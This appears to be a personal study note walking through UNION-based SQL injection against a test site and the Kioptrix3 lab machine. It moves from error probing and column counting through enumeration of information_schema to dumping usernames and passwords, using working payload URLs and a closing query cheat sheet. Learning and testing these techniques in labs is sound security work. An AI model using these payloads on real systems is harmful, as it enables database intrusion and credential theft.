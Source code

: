 # SQL Injection (SQLi)

`There are many types of injection vulnerabilities possible within web applications, such as HTTP injection, code injection, and command injection. The most common example, however, is SQL injection. A SQL injection occurs when a malicious user attempts to pass input that changes the final SQL query sent by the web application to the database, enabling the user to perform other unintended SQL queries directly against the database.

There are many ways to accomplish this. To get a SQL injection to work, the attacker must first inject SQL code and then subvert the web application logic by changing the original query or executing a completely new one. First of all, the attacker has to inject code outside the expected user input limits, so it does not get executed as simple user input. In the most basic case, this is done by injecting a single quote (') or a double quote (") to escape the limits of user input and inject data directly into the SQL query.

Once an attacker can inject, they have to look for a way to execute a different SQL query. This can be done using SQL code to make up a working query that executes both the intended and the new SQL queries. There are many ways to achieve this, like using stacked queries or using Union queries.

Finally, to retrieve our new query's output, we have to interpret it or capture it on the front end of the web application`
___

### First step :
_we can try to check if there is a SQLI with adding '_
If the page remains in same page or showing that page not found or showing some other webpages. Then it is not vulnerable.
If it showing any errors which is related to sql query,then it is vulnerable
for eg:
![[Pasted image 20211206181830.png]]

### Step two :
_Finding out the number of columns_
Now we know that the web is vulnerable next step is to find out the number of columns in the table we can do that by using order by query 
https://testphp.vulnweb.com/listproducts.php?cat=1 order by n
replace n with numbers you want or you can use them together by adding , between the numbers 
```
https://testphp.vulnweb.com/listproducts.php?cat=1 order by n,n,n,n,n,,n,n
for #eg. 1 2 3 4 5 6 7 8 


#Checking for fields
OR UNION # Keep adding null till you don't get an error
https://testphp.vulnweb.com/listproducts.php?cat=' UNION SELECT null,null,null; -- -


```
```
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%202
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%203
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%201,2,3,4,5,6
```
and sometimes it might not work and wee need to add "--" at the end of the query 
```
https://testphp.vulnweb.com/listproducts.php?cat=1 order by 1,2,3,4,5,6-- -
```
we can keep raising the number up till we get an error that means that column doesn't exist and we 
![[Pasted image 20211206182930.png]]

### Step Three :
_Checking for the vulnerable column_
Using “union select columns_sequence” we can find the vulnerable part of the table. Replace the “order by n” with this statement. And change the id value to negative(i mean id=-2,must change,but in some website may work without changing).

if the number of columns is 6 we can do the query like this : 
```
http://kioptrix3.com/gallery/gallery.php?id=-2%20union select 1,2,3,4,5,6--
```
![[Pasted image 20211206183809.png]]
or if it didn't work we can try 
```
http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=1%20union%20select%201,2,3,4,5,6--
```
it will show some numbers on the page let's take one of them and test on it 
![[Pasted image 20211206183958.png]]
let's try 3 
### Step Four :
_Enumerating the version tables database users etc._
now in the url we can change the number 3 to a SQL command 
```
http://kioptrix3.com/gallery/gallery.php?id=-2 and 1=2 union select 1,2,version(),4,5,6--
```
![[Pasted image 20211206184144.png]]
and it works! 
now we can take this further and extract more info from the system 
we can use database() 
![[Pasted image 20211206184310.png]]

or user()
![[Pasted image 20211206184328.png]]

if the above examples didn't work we can use hex and unhex 
```
http://kioptrix3.com/gallery/gallery.php?id=-2 and 1=2 union select 1,2,unhex(hex(@@version)),4,5,6
```
![[Pasted image 20211206184440.png]]

### Step Five :
_Getting Table name_
in this step we can use group_concat(table_name) from information_schema.tables where table_schema=database() to get the table name 

![[Pasted image 20211206184647.png]]

now we have table names on the database

`if the version is 4 or some others, you have to guess the table names. (user, tbluser).  It is hard and bore to do sql inection with version 4.`

### Step Six :
_Finding Column name_
Now we replace the “group_concat(table_name) with the “group_concat(column_name)”
and 
Replace the “from information_schema.tables where table_schema=database()–” with “FROM information_schema.columns WHERE table_name=SQLCHARS–
now what we should do is convert the table name into a SQLCHARS 
we can do that in : http://www.waraxe.us/sql-char-encoder.html
now we want to get columns inside gallarific_users table so converting gallarific_users into sqlchars we get 0x67616c6c6172696669635f7573657273
adding that to our url 

```
http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=2%20union%20select%201,2,group_concat(column_name),4,5,6%20from%20information_schema.columns%20where%20table_name=0x67616c6c6172696669635f7573657273
```

![[Pasted image 20211206190118.png]]

now we have all the columns inside gallarific_users

### Step Seven :
_Dumping the database columns values_

Now we replace the replace group_concat(column_name) with group_concat(columnname,0x3a,anothercolumnname).
columnname should be replaced with what column name we want to get 
and anothercolumnname should be replaced with what other column we also want to see 
Now we  replace the ” from information_schema.columns where table_name= 0x67616c6c6172696669635f7573657273” with the “from table_name”
http://kioptrix3.com/gallery/gallery.php?id=-2 union select 1,2,group_concat(username,0x3a,password),4,5,6 from gallarific_users--
![[Pasted image 20211206190710.png]]
and Voila! 
we have the users and passwords from the table users


```sql

select schema_name from information_schema.schemata -- show databases

select table_name from information_schema.tables where table_schema = 'DATABASE' -- show tables

select column_name from information_schema.columns where table_name = 'TABLE' -- show columns

select privilege_type FROM information_schema.user_privileges where grantee = "'USER'" --check priv



```